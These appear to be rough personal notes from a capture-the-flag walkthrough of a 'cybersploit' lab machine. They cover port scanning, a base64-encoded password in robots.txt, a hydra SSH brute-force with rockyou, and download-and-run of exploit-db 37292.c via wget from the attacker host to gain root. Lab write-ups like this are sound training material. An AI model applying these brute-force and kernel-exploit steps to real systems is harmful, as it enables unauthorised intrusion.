 22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))


nikto -host 
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.

robots.txt
Y3liZXJzcGxvaXR7eW91dHViZS5jb20vYy9jeWJlcnNwbG9pdH0= 
	b64 to cybersploit{youtube.com/c/cybersploit} 


inspect element
	username:itsskv
SSH bruterforce
		hydra -v -V -u -l itsskv -P  /usr/share/wordlists/rockyou.txt -t 1 -u 192.168.51.92 ssh	



**user:**
ssh itsskv@192.168.51.92 
	password : cybersploit{youtube.com/c/cybersploit} 

Ubuntu 12.04.5

cat local.txt: [REDACTED]

**Priv:** 
	No sudo -l
	uname -l 
		Linux cybersploit-CTF 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 
		searchsploit 3.13.0 

**Transfer**
	cp /usr/share/exploitdb/exploits/linux/local/37292.c ~
	python -m SimpleHTTPServer -p 8080
	python3 -m http.server 9000 
	*from box* wget192.168.49.51:9000/37292.c 
	gcc 37292.c -o ofs 
	./ofs 
	id

**Root**
cat proof.txt
[REDACTED]